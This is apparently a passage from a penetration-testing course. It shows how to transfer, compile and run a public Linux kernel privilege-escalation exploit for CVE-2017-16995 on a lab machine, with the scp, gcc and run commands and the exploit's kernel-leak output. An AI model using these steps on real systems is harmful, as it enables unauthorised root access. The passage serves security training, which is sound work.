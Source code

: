 ```
  gcc cve-2017-16995.c -o cve-2017-16995
  internet@client:~/cve-2017-16995$ ./cve-2017-16995
```

> Listing 58 - Identifying the exploit source code instructions.

Luckily, to compile the source code into an executable, we just need to invoke **gcc** and specify the C source code and the output filename. To simplify this process, we could also rename the source filename to match the one expected by the exploit's procedure. Once renamed, we can simply paste the original exploit's instructions to compile the C code.

```
kali@kali:~$ mv 45010.c cve-2017-16995.c
```

> Listing 59 - Renaming the Exploit

To make sure that the compilation process goes as smooth as possible, we take advantage of the fact that our target is already shipped with GCC. For this reason, we can compile and run the exploit on the target itself. Because of this we can take advantage of including the correct version of the libraries required by the target's architecture. This setup will lower the risks related to any cross-compilation compatibility issues. To begin with, we transfer the exploit source code over the target machine via the SCP tool.

```
kali@kali:~$ scp cve-2017-16995.c joe@192.168.123.216:
```

> Listing 60 - Transferring the source code to the target machine

Once transferred, we connect to the target machine and invoke GCC to compile the exploit, providing the source code as the first argument and the binary name as the output file to the **\-o** parameter.

```
joe@ubuntu-privesc:~$ gcc cve-2017-16995.c -o cve-2017-16995
```

> Listing 61 - Compiling the Exploit on the target machine

We can safely assume gcc compiled it correctly since it did not output any errors.

Using the **file** utility, we can also inspect the Linux ELF file architecture.

```
joe@ubuntu-privesc:~$ file cve-2017-16995
cve-2017-16995: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=588d687459a0e60bc6cb984b5180ec8c3558dc33, not stripped
```

> Listing 62 - Examining the exploit binary file's architecture

With all the prerequisites in place we are now ready to run our Linux kernel privilege escalation exploit.

```
joe@ubuntu-privesc:~$ ./cve-2017-16995
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007bd1f100
[*] Leaking sock struct from ffff880079bd9c00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880075c11e40
[*] UID from cred structure: 1001, matches the current: 1001
```